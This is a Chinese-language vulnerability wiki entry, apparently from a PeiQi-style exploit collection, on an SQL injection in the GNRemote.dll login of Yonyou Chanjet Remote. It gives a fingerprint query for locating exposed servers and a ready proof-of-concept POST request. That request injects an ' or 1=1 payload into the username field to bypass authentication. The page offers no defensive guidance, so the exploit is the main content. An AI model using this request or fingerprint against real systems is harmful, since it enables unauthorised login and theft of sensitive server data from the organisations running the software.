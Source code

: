 # 用友 畅捷通远程通 GNRemote.dll SQL注入漏洞

## 漏洞描述

用友 畅捷通远程通 GNRemote.dll SQL注入漏洞，攻击者通过SQL注入可以获取服务器敏感信息或者使用万能密码登录设备

## 漏洞影响

<a-checkbox checked>用友 畅捷通远程通</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="远程通CHANJET_Remote" </a-checkbox></br>

## 漏洞复现

登录页面

![img](/assets/PeiQi-Wiki/img/1664803780708-4fd98949-6c9a-4dca-9c06-9ff70231516f.png)

验证POC

```sql
POST /GNRemote.dll?GNFunction=LoginServer&decorator=text_wrap&frombrowser=esl

username=%22'%20or%201%3d1%3b%22&password=%018d8cbc8bfc24f018&ClientStatus=1
```

![img](../../../.vuepress/public/img/1664803838437-475c0c08-3cf2-482d-afbd-2c703ef58475.png)![img](/assets/PeiQi-Wiki/img/1664803846559-8bf28c7c-a65a-4aca-8188-839f57a401d3.png)
